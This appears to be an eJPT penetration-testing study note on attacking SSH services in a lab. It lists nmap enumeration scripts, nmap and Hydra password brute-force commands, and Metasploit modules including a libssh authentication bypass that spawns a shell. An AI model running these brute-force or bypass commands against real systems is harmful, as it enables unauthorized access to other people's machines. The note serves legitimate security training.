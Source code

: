 ## SSH - p22

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

This command is used to connect to the target machine with the user root.
```
ssh root@10.10.10.1
```
Netcat is useful to retrieve the service banner.
```
nc 10.10.10.1 22
```
Enumerate key Algorithms.
```
nmap 10.10.10.1 -p 22 --script ssh2-enum-algos
```
Retrieve public SSH-RSA key.
```
nmap 10.10.10.1 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full
```
Retrieve the supported authentication methods for the selected user, such as public-key or password. If the script doesn’t receive a response, we can connect to the target machine without authentication.
```
nmap 10.10.10.1 -p 22 --script ssh-auth-methods --scripts-args=“ssh.user=student”
```
### Nmap brute-force
```
nmap 10.10.10.1 -p 22 --script ssh-brute --script-args userdb=userlist.txt,passdb=passwordlist.txt
```
### Hydra brute-force attack
```
hydra -L userlist.txt -P passwordlist.txt 10.10.10.1 ssh
```
## METASPLOIT
```
search type:auxiliary name:ssh_version
search ssh_login -> brute force
search ssh_enumusers
```

## Linux - Exploiting SSH Server

SSH libssh V0.6.0-0.8.0 - C library - vulnerable service.
```
search libssh_auth_bypass
set SPAWN_PTY true
```
